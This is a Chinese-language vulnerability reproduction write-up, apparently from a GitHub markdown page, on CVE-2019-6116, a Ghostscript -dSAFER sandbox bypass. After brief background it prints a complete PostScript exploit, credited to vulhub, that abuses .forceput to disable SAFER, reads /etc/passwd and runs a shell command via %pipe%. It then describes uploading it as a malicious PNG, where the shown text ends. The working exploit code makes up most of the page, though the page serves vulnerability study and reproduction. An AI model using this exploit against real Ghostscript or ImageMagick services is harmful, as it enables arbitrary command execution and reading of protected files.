


# 1、基础简述
- GhostScript：GhostScript 是一款开源的 PostScript 和 PDF 解释器，广泛应用于文档预览、打印服务和图像处理等场景。许多主流应用（如 ImageMagick、GIMP 等）都依赖 GhostScript 来处理 PostScript 和 PDF 文件。

# 2、漏洞原理
- 介绍：漏洞存在于 pipe 命令的权限检查逻辑中。在 -dSAFER 模式下，GhostScript 本应禁止执行外部命令或访问受限文件系统路径。然而，攻击者可以通过精心构造的 PostScript 代码，利用 pipe 命令与 %pipe% 或 | 符号结合，绕过沙箱限制执行任意系统命令。
- 范围：GhostScript 9.27 及之前的所有版本

# 3、漏洞复现
- 将如下poc内容制作成png图片：
```bash
%!PS
% extract .actual_pdfpaintproc operator from pdfdict
/.actual_pdfpaintproc pdfdict /.actual_pdfpaintproc get def

/exploit {
    (Stage 11: Exploitation...)=

    /forceput exch def

    systemdict /SAFER false forceput
    userparams /LockFilePermissions false forceput
    systemdict /userparams get /PermitFileControl [(*)] forceput
    systemdict /userparams get /PermitFileWriting [(*)] forceput
    systemdict /userparams get /PermitFileReading [(*)] forceput

    % update
    save restore

    % All done.
    stop
} def

errordict /typecheck {
    /typecount typecount 1 add def
    (Stage 10: /typecheck #)=only typecount ==

    % The first error will be the .knownget, which we handle and setup the
    % stack. The second error will be the ifelse (missing boolean), and then we
    % dump the operands.
    typecount 1 eq { null } if
    typecount 2 eq { pop 7 get exploit } if
    typecount 3 eq { (unexpected)= quit }  if
} put

% The pseudo-operator .actual_pdfpaintproc from pdf_draw.ps pushes some
% executable arrays onto the operand stack that contain .forceput, but are not
% marked as executeonly or pseudo-operators.
%
% The routine was attempting to pass them to ifelse, but we can cause that to
% fail because when the routine was declared, it used `bind` but many of the
% names it uses are not operators and so are just looked up in the dictstack.
%
% This means we can push a dict onto the dictstack and control how the routine
% works.
<<
    /typecount      0
    /PDFfile        { (Stage 0: PDFfile)= currentfile }
    /q              { (Stage 1: q)= } % no-op
    /oget           { (Stage 3: oget)= pop pop 0 } % clear stack
    /pdfemptycount  { (Stage 4: pdfemptycount)= } % no-op
    /gput           { (Stage 5: gput)= }  % no-op
    /resolvestream  { (Stage 6: resolvestream)= } % no-op
    /pdfopdict      { (Stage 7: pdfopdict)= } % no-op
    /.pdfruncontext { (Stage 8: .pdfruncontext)= 0 1 mark } % satisfy counttomark and index
    /pdfdict        { (Stage 9: pdfdict)=
        % cause a /typecheck error we handle above
        true
    }
>> begin <<>> <<>> { .actual_pdfpaintproc } stopped pop

(Should now have complete control over ghostscript, attempting to read /etc/passwd...)=

% Demonstrate reading a file we shouldnt have access to.
(/etc/passwd) (r) file dup 64 string readline pop == closefile

(Attempting to execute a shell command...)= flush

% run command
(%pipe%id > /tmp/success) (w) file closefile

(All done.)=

quit
```
> 脚本来源：https://github.com/vulhub/vulhub/tree/master/ghostscript/CVE-2019-6116

- 上传恶意png图片并抓包：


- 修改图片内容：
